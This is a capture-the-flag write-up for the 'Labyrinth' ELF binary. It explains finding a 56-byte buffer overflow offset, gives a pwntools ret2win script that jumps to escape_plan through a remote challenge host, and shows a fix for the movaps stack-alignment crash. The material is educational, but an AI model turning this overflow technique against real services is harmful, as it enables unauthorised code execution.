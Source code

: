# Labyrinth

We're given an 64-bit ELF called Labyrinth.

Firstly, i'll analyzed the program using `ida` to disassemble it. We can see a main function of this program.This program expects us to input `69` or `069` to get another user input.Otherwise, the profram will be exit.

![decompile](/img/decompile.png)

#Find The Offset

Next, we'll check the buffer offset of this program.We can use `cyclic` in `pwngdb` to find the offset.

To overwrite the return address, we can fill the buffer with `56` byte followed by the destination address.We'll jump to `escape_plan` address cause it opens the flag.txt.

![offset](/img/offset.png)


payload :

```
from pwn import *

context.binary = elf = ELF("./labyrinth", checksec=False)


if args.LOCAL:
    p = process(elf.path)
else:
    p = remote('94.237.122.241', 52656)

gdb.attach(p, gdbscript='')

buffer = b"A" * 56
escape = elf.sym['escape_plan']

pay = buffer
pay += p64(escape)

p.sendlineafter(b">> ", b"69")
p.sendlineafter(b">> ", pay)

p.interactive()
```


When i run the payload, the program crashses annd stop at `movaps` intrunction, it's caleed the movaps issue. 

`When the source or destination operand is a memory operand, the operand must be aligned on a 16-byte (0x10) boundary or a general-protection exception`


```
```
pwndbg> x/i $rip
=> 0x70f22b677693:      movaps XMMWORD PTR [rsp+0x40],xmm0
pwndbg>
```
```

#Stack  Alignment Fix

In order to align our stack, we can add a `ret` address, or use the address after the push intruction of `escape_plan` function.

```
Dump of assembler code for function escape_plan:
   0x0000000000401255 <+0>:     push   rbp
   0x0000000000401256 <+1>:     mov    rbp,rsp   <== we can use this or use the ret address
   0x0000000000401259 <+4>:     sub    rsp,0x10
   0x000000000040125d <+8>:     mov    edi,0xa
```

Now, it'work and we got the flag.

[solver](sv.py)




